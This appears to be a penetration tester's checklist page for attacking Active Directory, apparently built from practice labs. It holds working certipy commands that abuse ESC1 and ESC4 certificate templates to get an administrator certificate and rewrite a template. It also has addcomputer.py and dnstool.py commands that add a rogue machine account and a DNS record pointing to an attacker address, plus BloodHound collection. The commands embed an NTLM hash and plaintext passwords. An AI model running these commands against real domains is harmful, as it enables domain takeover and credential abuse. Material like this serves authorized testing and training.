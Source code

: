 #### Esc1

* [ ] To request certificate:

```
certipy req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dc-ip 10.10.208.21 -key-size 4096 -debug
```

* [ ] To auth:

```
certipy auth -pfx administrator_dc01.pfx -dc-ip 10.10.208.21
```

#### Esc4

* [ ] Convert to ESC1 and follow ESC1 procedure:

```
certipy template -username 'clifford.davey'@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```

* [ ] Try [petitpotam.md](../active-directory/ad-exploitation/petitpotam.md "mention")
* [ ] Check nmap for certificate authority
* [ ] If found enumerate post exploitation with [certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [ ] Refer Absolute-HTB for more details

### DNS Records

* [ ] Add a new computer:

```
addcomputer.py -dc-ip 10.10.67.128 -computer-pass EvilYeeb123 -computer-name evilyeeb sendai.vl/Susan.Harper:'Password123'
```

* [ ] Then use dnstool.py:

```
dnstool.py -u 'sendai.vl\evilyeeb$' -p 'EvilYeeb123' -r evilyeeb.sendai.vl -d 10.8.0.193 --action add DC.sendai.vl -dns-ip 10.10.67.128
```

### Bloodhound

If SID is displayed it is a **local account**. BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine

Use **Collection Loops to not miss information.**

* bloodhound.py ingestor

```
bloodhound.py -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all --zip
```
